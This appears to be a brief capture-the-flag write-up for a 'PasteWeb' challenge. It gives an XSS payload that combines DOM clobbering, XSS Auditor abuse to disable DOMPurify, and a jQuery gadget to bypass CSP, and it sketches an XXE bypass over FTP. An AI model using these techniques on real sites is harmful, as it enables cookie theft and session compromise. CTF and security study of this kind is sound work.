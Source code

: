 # PasteWeb

## Bug 1: XSS (hard)

### Payload

Create a paste with the following payload:
```
<form id="fb"><input name="ownerDocument"/><script>alert(document.cookie);</script></form>
```

Then access the paste with:
```
http://127.0.0.1/paste/b4ceb9cf-f601-44b1-bbaf-b3aa78a3206d?w=%3Cscript%20src=%22https://cdnjs.cloudflare.com/ajax/libs/dompurify/1.0.11/purify.min.js%22
```

### Idea
1. Abuse Chrome's XSS Auditor (filter-mode) to disable DOMPurify
2. Bug in paste.html js -> try catch doesn't halt execution
3. DOM Clobbering -> create element with same DOM Element ID to mess up with js queryselector
4. jQuery Script Gadget to bypass CSP Strict-Dynamic (https://www.blackhat.com/docs/us-17/thursday/us-17-Lekies-Dont-Trust-The-DOM-Bypassing-XSS-Mitigations-Via-Script-Gadgets.pdf)

## Bug 2: XXE (easy)

### Payload

### Idea
XXE, use FTP to bypass HTTP(s) filters

## author
adamyi
